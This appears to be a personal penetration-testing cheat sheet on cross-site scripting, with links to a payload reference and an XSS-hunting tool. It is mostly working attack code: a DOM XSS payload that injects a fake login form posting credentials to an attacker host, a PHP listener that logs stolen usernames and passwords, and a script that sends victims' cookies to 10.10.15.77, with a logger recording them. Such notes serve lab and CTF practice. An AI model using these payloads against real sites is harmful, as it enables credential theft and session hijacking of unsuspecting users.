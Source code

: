 #xss
#cheatseet:
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

automation:
https://github.com/mandatoryprogrammer/xsshunter-express

give it a try for stored xss:
* evil svg
* pdf for xss
* `<img src=x onerror=alert(1) />`

typical payload:
blink: ip, cookie, url

**DOM XSS payload**:
[[DOM-based XSS]]
```html
<img src="" onerror=alert(window.origin)>
```

example payload of login form for DOM XSS:
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

server:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.10.15.77/phishing/index.php");
    fclose($file);
    exit();
}
?>
```


```html
<img src=x onerror="&#x61;lert(1)">
```

#### Blind XSS

Common places:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

#### Example of hijacking cookies:
[[Session hijacking]]
Run server:
```php
php -S 0.0.0.0:8000
```

`index.php`
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
script.js
```js
new Image().src='http://10.10.15.77:8000/index.php?c='+document.cookie;
```
payload:
```html
"><script src=http://10.10.15.77:8000/script.js></script>
```
